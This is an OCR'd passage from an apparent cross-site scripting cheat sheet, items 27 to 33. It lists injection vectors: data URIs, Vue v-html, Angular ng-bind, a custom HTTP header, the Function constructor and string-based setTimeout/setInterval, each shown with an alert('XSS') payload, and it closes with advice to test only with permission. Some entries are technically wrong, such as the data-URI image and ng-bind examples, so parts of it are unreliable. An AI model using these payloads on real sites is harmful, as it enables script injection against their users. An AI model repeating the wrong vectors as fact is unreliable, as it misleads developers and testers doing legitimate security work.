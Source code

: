 

27. Advanced Browser Features

Service Workers:

Registering a service worker that intercepts requests and injects scripts.



28. Data URIs

Using Data URIs for XSS:

<img src="data:image/png;base64,iVBORw0KGg...<script>alert('XSS')</script>">


29. Exploiting Framework Limitations

Vue.js (v-html):

<div v-html="userInput"></div>

Angular (ng-bind):

<div ng-bind="userInput"></div>


30. Using Unvalidated Input

Reflected XSS through URL Parameters:

Accessing user input directly from the query string without sanitization.



31. Advanced HTTP Header Manipulation

Custom Headers with Malicious Payload:

X-Custom-Header: <script>alert('XSS')</script>


32. Contextual JavaScript

Using JavaScript's Function Constructor:

var payload = "alert('XSS')";
var func = new Function(payload);
func();


33. Using setTimeout and setInterval

Delaying Execution:

setTimeout("alert('XSS')", 1000);
setInterval("alert('XSS')", 1000);


Final Thoughts

Continuously explore new XSS vectors, as web technologies evolve.

Keep up with the latest vulnerabilities and patches in frameworks.

Always test responsibly, ensuring you have permission and use a safe environment.
